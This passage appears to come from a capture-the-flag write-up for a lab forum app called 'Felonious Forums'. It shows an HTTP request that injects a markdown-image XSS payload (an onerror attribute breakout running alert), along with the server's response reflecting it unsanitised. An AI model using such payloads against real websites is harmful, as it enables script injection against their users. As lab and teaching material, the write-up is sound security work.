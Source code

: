```http
Referer: http://192.168.1.118:1337/threads/new
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTEsInVzZXJuYW1lIjoibXl1c2VyIiwicmVwdXRhdGlvbiI6MCwiY3JlZGl0cyI6MTAwLCJ1c2VyX3JvbGUiOiJOZXdiaWUiLCJhdmF0YXIiOiJuZXdiaWUud2VicCIsImpvaW5lZCI6IjIwMjItMDctMTkgMjA6MTI6MzUiLCJpYXQiOjE2NTgyNjk1Mzd9.VavmLYqwPLmxWSx7L13cGLZRCUTKrtwE6zzEdwNotms
Upgrade-Insecure-Requests: 1

title=test&content=xss_here![](http://non_existent.net/fail"onerror="alert(123))&cat_id=2
```

### Response
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 7196
ETag: W/"1c1c-y24c+bXd8snI8YSfrXyIHlzxSVo"
Date: Tue, 19 Jul 2022 22:58:23 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
   <head>
      <meta charset="UTF-8" />
      <title>Felonious Forums | Preview Thread</title>
...snip...
            <div id="_pcon">
                <p>xss_here<img src="http://non_existent.net/fail"onerror="alert(123)" alt="" /></p>
            </div>
...snip...
```

![](xss_alert.png)
